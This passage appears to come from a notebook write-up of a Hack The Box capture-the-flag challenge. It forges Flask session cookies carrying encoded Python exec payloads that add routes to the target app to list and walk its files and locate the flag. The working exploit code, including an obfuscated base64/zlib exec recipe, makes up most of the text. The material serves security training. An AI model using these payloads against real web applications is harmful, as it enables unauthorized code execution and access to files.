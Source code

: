     ['webserver.py']


This attack is **successfull** on our local app. We are going to test against the one from HTB.


```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server1
    Using the url: http://167.172.53.64:30820



```python
res = get_response_from_the_app_using_cookie(url, cookie)
```


```python
print requests.session().get(url+"/l").text
```

    ['app.py', 'templates', 'totally_not_a_loooooooong_flaaaaag']


**YES!** This approach is successfull also against HTB.

We see that there is a `totally_not_a_loooooooong_flaaaaag` object in the current directory. We are not able to determine with this output if it is a file or a directory.

Better to use `os.walk` and print the entire tree.


```python
pl_new_route_with_walk = """import flask,os;flask.current_app.add_url_rule('/e','e',lambda:str(list(os.walk('.'))))"""
```


```python
cookie = from_payload_to_cookie_for_flask(make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_new_route_with_walk)),secret_key,debug_recipe=True)
```

    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNTkkKwzAM/IrJRTYEt+f0KaEIeQmYeAleaKH071VyqkAwzEgz49/eymmaQjpK7WKL1Pa5tMcFtB21+tyRjkOTczhqxDqil3DzMANvpGQcLa1XGUPrsjT9orhL0KB42Hn+AKIZIfaQGyIsqxVbqcKKkIVUGtFyFiuMDDV/gTbMxXrmpRJhE2Cpw/liWc6U+E481/vzdEjFcSn9H/NVP8aTSgc="'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 298


We test it directly on HTB.


```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server1
    Using the url: http://167.172.53.64:30820



```python
res = get_response_from_the_app_using_cookie(url, cookie)
```
